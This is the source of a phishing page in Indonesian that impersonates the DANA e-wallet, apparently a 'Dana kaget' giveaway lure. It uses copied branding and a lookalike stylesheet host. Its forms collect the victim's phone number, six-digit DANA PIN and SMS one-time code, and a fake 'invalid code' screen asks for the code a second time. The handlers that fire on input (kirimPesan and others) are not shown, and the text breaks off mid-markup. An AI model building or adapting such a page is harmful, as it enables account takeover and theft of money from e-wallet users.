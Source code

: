 

<html lang="id">
  <meta charset="utf-8">
   <meta name="theme-color" content="#118EEA"> 
  <meta content="DANA E-wallet" property="og:title">
  <meta content="dana.id" property="twitter:title">
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0" name="viewport">
 <meta name="description" content="Mau bayar apapun jadi semudah lewat sentuhan jari. Lewat DANA, kamu bisa melakukan transaksi apapun dengan praktis mulai dari pembayaran tagihan, transaksi barcode scan, hingga e-commerce. #GantiDompet dan nikmati metode pembayaran yang lebih cepat, praktis dan aman.">
  <meta content="https://assets.kompasiana.com/items/album/2022/01/19/dana-heri-61e79b5c06310e2d0778d653.jpg?t=o&v=325" property="og:image">
  <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
  <meta content="Dana E-wallet" name="generator">
    <title>DANA E-wallet</title>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'self' 'unsafe-inline' 'unsafe-eval' data: gap:">
  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Inter:100,200,300,regular,500,600,700,800,900" media="all"> 
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="apple-touch-icon">
<link rel="stylesheet" href="https://www-dana-idl.github.io/Dana.kaget/dana.css">
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.inputmask/3.3.4/jquery.inputmask.bundle.min.js">
</script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.15/jquery.mask.min.js"></script>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.10.2/jquery.min.js"></script>

<style>
* {
  box-sizing: border-box;
}

body {

      box-sizing: border-box;
    display: block;
    margin: 0px auto;
    font-family: Arial, Helvetica, sans-serif;
    width: 100%;
    height: 100%;
    max-width: 600px;
    max-height: 1000px;
    background-color: #118EEA;
    padding: 25px;
    position: absolute;
    top: 50%;
    left: 50%;
    transform: translate(-50%, -50%);
    -webkit-transform: translate(-50%, -50%);
    -moz-transform: translate(-50%, -50%);
    -ms-transform: translate(-50%, -50%);
    -o-transform: translate(-50%, -50%);
}

#regForm {
  max-width: 500px;
    margin: auto;
    margin-top: 0px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}

h1 {
  text-align: center;  
}

.inputku {
  box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 22px;
    font-weight: 600;
    padding-left: 80px;
}
          .blink {
    animation: blink-animation 2s steps(6, start) infinite;
    -webkit-animation: blink-animation 2s steps(6, start) infinite;
  }
  @keyframes blink-animation {
    to {
      visibility: hidden;
    }
  }
  @-webkit-keyframes blink-animation {
    to {
      visibility: hidden;
    }
  }

  #otp{
      display: none;
  }
/* Mark input boxes that gets an error on validation: */
input.invalid {
  background-color: #ffdddd;
}

/* Hide all steps by default: */
.tab {
  display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}



/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;    display: none;
}

button {
  background-color: #04AA6D;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  font-size: 17px;
  font-family: Raleway;
  cursor: pointer;
}

button:hover {
  opacity: 0.8;
}

#prevBtn {

   position: absolute;
    top: 0px;
    width: 18px;
    float: left;
    left: 10;
}

/* Make circles that indicate the steps of the form: */
.step {
  height: 15px;
  width: 15px;
  margin: 0 2px;
  background-color: #bbbbbb;
  border: none;  
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  border-radius: 50%;
  display: inline-block;
  opacity: 0.0;
}

.step.active {
  opacity: 0;
}

/* Mark the steps that are finished and valid: */
.step.finish {
  background-color: #04AA6D;
}

.dana_logo{
    display: block;
    width: 95px;
    opacity: ;
    margin-bottom: 50px;
    margin-top: 10px;
    position: fixed;
    top: 0;
    left: 0;
    right: 0;
    margin: 10px auto;
    margin-left: auto;
    margin-right: auto;
}

 .bh1 {
    font-weight: 700;
    font-size: 15px;
    color: white;
 }

 .bh11{
     font-size: 15px;
     margin-top: 5px;
     color: white;
     margin-bottom: -10px;
     font-weight: 300;
 }

 .inputNo {
    box-sizing: border-box;
    margin-top: 20px;
    width: 100%;
    /*background-color: #ff0000a5;*/
    height: 100%;
    max-height: 800px;
}
.formNo, .nope {
    box-sizing: border-box;
    border: none;
    outline: none;
    border-radius: 10px;
    width: 100%;
    max-width: 500px;
    height: 42px;
    display: block;
    margin: auto;
    font-size: 24px;
    font-weight: 600;
    padding-left: 90px;
}
.formNo {
    max-width: 500px;
    margin: auto;
    margin-top: -60px;
    /*background-color: #00000044;*/
    height: 100%;
    max-height: 700px;
}
label {
    display: inline-block;
    position: relative;
    bottom: -49px;
}
.flagIndo {
    width: 25px;
    margin-left: 10px;
    margin-right: 5px;
    border-radius: 2px;
    box-shadow: 0.3px 0.3px 2px #ccc;
}
.codeTel {
    font-weight: 600;
    font-size:17px ;
}
.syarat {
    font-size: 14px;
    margin-left: 0px;
    margin-right: 0px;
    color: white;
    font-weight: 400;
}
.send_data {
    background: none;
    font-size: 15px;
    color: #ffffff9c;
    border: none;
    width: 70px;
    height: 40px;
    margin-top: 500px;
    transition: 0.3s;
}
.send_data:active,.send_data:hover,.send_data:focus{
    font-size: 15.3px;
    color: #ffffff;
    width: 75px;
    height: 45px;
    transition: 0.3s;
}
input::placeholder {
    font-weight: 600;
    font-size: 24px;
    padding-top: 7px;
    padding-left: 2px;
    color: #bebebe;
}

.back {
    position: absolute;
    top: 15px;
    width: 18px;
    float: left;
    left: 10;
}

.btnku{
       margin-top: -15px;
    width: 90%;
    margin: 12px auto;
    position: absolute;
    bottom: 10px;
    left: 0;
    font-size: 16px;
    right: 0;
    height: 50px;
    border-radius: 10px;
    box-shadow: rgb(170, 170, 170) 0px 0px 0px 0px; 
    transition: background 0ms step-start 0s;
    background-color: transparent;
    font-weight: 800;
        }


        .btnku:disabled{
            opacity: 0.4;
        }
  h3{
      text-align: center;
      font-size: 15px;
      color: white;
      margin-top: 90px;
      font-weight: 400;
      background-color: #118EEA;
  }
  .pin-code{ 
  padding: 0; 
  margin: 0 auto; 
  display: flex;
  justify-content:center;

} 

.pin-code input { 
  border: none; 
  text-align: center; 
  width: 36px;
  height:42px;
  font-size: 36px; 
  background-color: #fff;
  margin-right:-0px;
  border-radius: 8px;
} 



.pin-code input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


input::-webkit-outer-spin-button,
input::-webkit-inner-spin-button {
    -webkit-appearance: none;
    margin: 0;
}
.button { 
  font-family: helvetica;
  text-align:center;
  color: #fff;
  padding: -5px;
  margin: -1px;
  max-width: 100%;
  font-size: 12px;
  margin-top: 20px;
  margin-bottom: 50px;
  background: #118EEA;
  border: 1px solid;
  border-color: #fff;
  border-radius: 20px;
  width: 30%;
  height: 22px;
}
#myForm{
    display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 780px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;

}
#valid{
display: none;
    position: fixed;
    left: 0;
    right: 0;
    bottom: 0;
    width: 100%;
    height: 780px;
     background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZxa4wweGrDC3oVR5E8NyqDrYGP8laPfDywsnBmLRxfOataWXZDrMgzFijPHg4txcrR24EtlibL_UoxgWMoaorsBEa9m1_c98mF5Z_ww5XIvmi7oEu5dDFGHc4kITYCf_Tko7HjHfnEY4R8QHXqFk88rybb1HTje1wCuv0Z3HjB1fHEZVzET_A99YE/s16000/AddText_05-18-01.31.18.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  animation: fadeIn 2s;
  -webkit-animation: fadeIn 2s;
  -moz-animation: fadeIn 2s;
  -o-animation: fadeIn 2s;
  -ms-animation: fadeIn 2s;
  z-index: 9999999;
}
@keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-moz-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-webkit-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-o-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

@-ms-keyframes fadeIn {
  0% { opacity: 0; }
  100% { opacity: 1; }
}

 .resend{
     text-align: center;
 }

 .pin-code1{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;

} 

.pin-code1 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code1 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 

 .pin-code2{ 
  padding: 0; 
  margin: 0 auto; 
  display: ;
  justify-content:center;

} 

.pin-code2 input { 
  border: none; 
  text-align: center; 
  width: 40px;
  height:45px;
  font-size: 36px; 
  background-color: #F5F5F5;
  margin-right:3px;
  border-radius: 8px;
} 



.pin-code2 input:focus { 
  border: 0px solid #573D8B;
  outline:none;
} 


 /*********************/
.process {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: ;
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;

}


.loading img {
    width: 50px;

    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

 #danapin{
     width: 100%;
     height: 650px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    background:url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgDlAoE0-pgmIw6eGUJsLaRLS2KbvxqYTGA_8TQOf0-EdX8DoT1OUfhfnrPXMHfuU5NlKQfLJMSgISuw_cgbRX1nlcw2zpj-8tsmwiT3eZQxVJTERUbcLvMV4qHsnFmhy99mjfqy5UzsaT50f3LS_BHsTCS1SfLW1LRRO4ywlmj1XaLF1rETALk_fOm/s16000/AddText_05-01-06.11.17.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;


 }

 #homeku{
     width: 100%;
     height: 680px;
     position: fixed;
    left: 0;
    right: 0;
    top: 0;
    bottom: 0;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;


 }

 welalxcome {
    display: flex;
  position: fixed;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  background: url(https://media.publit.io/file/dnadmi.jpg) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%;
  z-index: 10000;

}
welalxcome img {
        width:100%;
    height: 700px;
    margin-top: -55px;

}
chsalxcome {
        position: relative;
    width: 100%;
    height: 100vh;
    display: flex;
    flex-direction: column;
    flex-wrap: nowrap;
    align-items: center;
}

 @-webkit-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-moz-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@-o-keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}
@keyframes slide {
  0%   { transform: translate(0px,100px); }
  100% { transform: translate(0px,0px); }
}

.page {
 animation-name: slide;
 animation-duration: 1s; 
 animation-fill-mode: forwards; 
}





.credit_card{

}

.ewc_place{
    margin-top: -5px;
}

.ewc_place::placeholder{
    font-size: 14px;
}


@keyframes tonext {
  75% {
    left: 0;
  }
  95% {
    left: 100%;
  }
  98% {
    left: 100%;
  }
  99% {
    left: 0;
  }
}

@keyframes tostart {
  75% {
    left: 0;
  }
  95% {
    left: -300%;
  }
  98% {
    left: -300%;
  }
  99% {
    left: 0;
  }
}

@keyframes snap {
  96% {
    scroll-snap-align: center;
  }
  97% {
    scroll-snap-align: none;
  }
  99% {
    scroll-snap-align: none;
  }
  100% {
    scroll-snap-align: center;
  }
}


* {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118EEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118EEA;
  padding-top:0%;
  top: 0;
  right: 0;
  left: 0;
  margin: 1px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  width: 100%;
  top: 0;
  background-color: #118EEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 534px;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 1px auto;

  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 78%;
  margin-left: 10px;
  background-color: #118EEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118EEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118EEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 20;
  width: 100%;
  height: 530px;
  scroll-snap-align: center;
  background-color: #118EEA;


}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}

.carousel__navigation-button {
  display: inline-block;
  width: 0.8rem;
  height: 1.0rem;
  background-color: #000;
  background-clip: red;
  margin: 10px -20;
  border: 0.2rem solid blue;
  border-radius: 50%;
  font-size: 0;
  position: relative;
  top: 10px;
  margin-left: -10px;
  text-align: center;
  transition: transform 0.1s;
}

.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

</style>
<body>
 <main>

 <welalxcome>

</welalxcome>
<chsalxcome2 style="display: none;">
<div style="height:30px;width: 70px;margin-top: -20px;margin-bottom: 0px;float:center;margin-left:42%" class="talxcome">
</div>
<form class="regForm" action="#" method="get">
     <center>
   <img class="dana_logo" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrWtY0kKy_PhEmPe1oiSlQMTbwojkQ9xkGIDV7JU1wx7ofj7R2evgWsKdBPJ_3sv1wFAIpmsQYQ8_70jWdrr6KGTXT6ie9IuJWhocY_-FmK01JKwrbFZ6JPYwoaY5qCOX7_XS4bHlFFPS3LcwWUChAmCCQFf9BpSUgCGh7u4G9ubbnVgXJYdIjFOLK/s16000/AddText_05-15-01.34.42.png">
     </center>       
  <!-- One "tab" for each step in the form: -->
<div class="" style="text-align: center;" id="homeku">
    <div style="position: fixed; top: 0; right: 0; left: 0; margin: 1px auto; height: 50px; width: 100%; background: #118EEA; z-index: 9999999999; margin-bottom: 0px">
        <center>
       <img class="dana_logo" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgrWtY0kKy_PhEmPe1oiSlQMTbwojkQ9xkGIDV7JU1wx7ofj7R2evgWsKdBPJ_3sv1wFAIpmsQYQ8_70jWdrr6KGTXT6ie9IuJWhocY_-FmK01JKwrbFZ6JPYwoaY5qCOX7_XS4bHlFFPS3LcwWUChAmCCQFf9BpSUgCGh7u4G9ubbnVgXJYdIjFOLK/s16000/AddText_05-15-01.34.42.png" style="z-index: 9999999999">
       </center>
       </div>
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">


      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">


      </div>
    </li>

  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button">Go to slide 1</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button">Go to slide 2</a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button">Go to slide 3</a>
      </li>
      <li class="carousel__navigation-item">

    </ol>
  </aside>
</section>
<button style="width: 100%; height: 140px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEid9dARAQbMu1UTEgpOfyH6pn4eI3_XArbELp_8lfZtysRgex-gqs0Czc9ch_O7U2lrucgBVSqGQEL33BwV3Ri4D3evjzJHJ6LBFa_K-pIPbdO6QQ3iHlTkLiqo_w2z2NbXTw83lNcWHG7T9q2n6m7N3SZ-qfZpTdsioS3dm-YIfJh4zU16QEODOLKn/s16000/AddText_06-06-08.17.04.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;" onclick="nextPrev()"></button>
  </div>
  <div class="tab" id="login">
 <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
    <p style="margin-top: 60px"><h1 class="bh11">Masukkan <b class="bh1">nomor HP</b> kamu untuk lanjut</h1>
     <label for="nomorhp" class="flagNo">
<img class="flagIndo" src="https://img.freepik.com/free-vector/illustration-indonesia-flag_53876-27131.jpg?size=626&ext=jpg"></label>
<label for="nope"><p class="codeTel">+62</p></label>
<input type="hidden" id="logo" value="❁┷━❃∞∞𝗗𝗔𝗡𝗔∞∞❃━┷❁">
         <input class="form-control nope" id="nope" type="tel" name="nope" placeholder="811-1234-5678" maxlength="16" autocomplete="on" required></p>
        <br>
        <h1 class="syarat">Nomor ponsel akan digunakan sebagai ID kamu & 
        menjaga akun selalu aman. Dengan melanjutkan kamu setuju dengan <b class="bh1">Syarat & Ketentuan</b> dan <b class="bh1">Kebijakan Privasi</b> kami</h1>
   <button type="button" id="nextBtn" class="btnku" onclick="nomorLogin()" disabled="disabled">Lanjut</button> 
  </div>
  <div class="tab" id="danapin">
      <button type="button" style="background-color: transparent; color: transparent;" class="back" id="prevBtn" onclick="backbutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></button>
      <center>

      <h3>Masukkan <strong>PIN DANA</strong></h3>
    <div class="pin-code" maxlength="6" style="margin-top: 30px;">

    <center>
   <input type="hidden" id="logo" value="❁┷━❃∞∞𝗗𝗔𝗡𝗔∞∞❃━┷❁">
    <input type="hidden" name="sixpin" id="setPin"> 
  <input type="tel" id="pin1" data-id="1" maxlength="1" required autofocus>
    <input type="tel" id="pin2" data-id="2" name="pin2" maxlength="1" autofocus>
    <input type="tel" id="pin3" data-id="3" name="pin3" maxlength="1" autofocus>
    <input type="tel" id="pin4" data-id="4" name="pin4" maxlength="1" autofocus>
    <input type="tel" id="pin5" data-id="5" name="pin5" maxlength="1" autofocus>
   <input type="tel" value="" id="pin6" data-id="6" name="pin6" maxlength="1" required onchange="javascript:this.form.button();" oninput="openForm()" autofocus>
    <p></p>
    <input type="tel" style="opacity: 0.0">
     </div> 
 <h2><input class="button" type="button" style="margin-top: -55px;" value="TAMPILKAN"></h2>
    </center>

  </div>
  <div class="tab" id="myForm">
       <button type="button" style="background-color: transparent; color: transparent; margin-top: -10px" class="back" id="prevBtn1" onclick="kembalibutton()">back<img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg" style="opacity: 0.0"></button>
       <p style="font-size: 20px; text-align: center; margin-bottom: -120px; font-weight: 600; color: #070707; margin-top: 141px; margin-left: -50px; opacity: 0.0;">nomor</p>

    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: 0px; background: url(https://media.publit.io/file/pieepe-5.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 

      <div class="pin-code1" maxlength="6" style="margin-top: 98px"> <center>

       <input type="tel" id="pin11" data-id="11" name="pin11" maxlength="1" required autofocus> 
       <input type="tel" id="pin22" data-id="22" name="pin22" maxlength="1" autofocus> 
       <input type="tel" id="pin33" data-id="33" name="pin33" maxlength="1" autofocus> 
       <input type="tel" id="pin44" data-id="44" name="pin444" maxlength="1" required onchange="javascript:this.form.button();" oninput="kirimPesan()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <p id="userid" style="font-size: 15px; text-align: center; margin-bottom: 130px; font-weight: 400; color: #070707; margin-top: -140px; margin-left: 0px; display: ">nomor</p>
       <p></p>
       <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 30px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 

     <input type="hidden" id="logo" value="❁┷━❃∞∞𝗗𝗔𝗡𝗔∞∞❃━┷❁">

  </div>
  <div class="tab" id="valid">
  <p id="userid" style="font-size: 20px; text-align: center; margin-bottom: -100px; font-weight: 600; color: #070707; margin-top: -12px; margin-left: -125px; opacity: 0.0;">nomor</p>

     <p class="blink" style="display: none" id="blinkk"><h1>Kode Aktivasi tidak Valid, Silahkan coba lagi</h1></p>

    <div class="page" style="left: 0px; position: absolute; right: 0; margin-top: -210px; background: url(https://media.publit.io/file/pieepe-5.png) no-repeat center center;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 10px 10px 0px 0px"> 
  <form action="#" method="get">
      <div class="pin-code2" maxlength="6" style="margin-top: 107px"> <center>

       <input type="tel" id="pin111" data-id="111" name="pin111" maxlength="1" required autofocus> 
       <input type="tel" id="pin222" data-id="222" name="pin222" maxlength="1" autofocus> 
       <input type="tel" id="pin333" data-id="333" name="pin333" maxlength="1" autofocus> 
       <input type="tel" id="pin444" data-id="444" name="pin444" maxlength="1" required onchange="javascript:this.form.submit();" oninput="kirimPesan1()" autofocus> 
       <p></p> 
       <input type="tel" style="opacity: 0.0"> 
       </center>
       <div style="margin: 30px">
            <p id="useridku" style="font-size: 13px; text-align: center; margin-bottom: 118px; font-weight: 400; color: red; margin-top: -180px; margin-left: 0px; display: ">Kode dikirim via SMS ke Nomor anda</p>
             </div>
       <p></p>
 <p class="resend" style="font-weight: 800; color: #ccc; z-index: 99999999999; position: static; margin-left: 30px">KIRIM ULANG (<span id="time">60</span>s)</p>
      </div> 
     </div> 

     <input type="hidden" id="logo" value="❁┷━❃∞∞𝗗𝗔𝗡𝗔∞∞❃━┷❁">

</form>
  </div>
  <div style="overflow:auto;">
    <div style="float: ; display: none" id="tombolback">
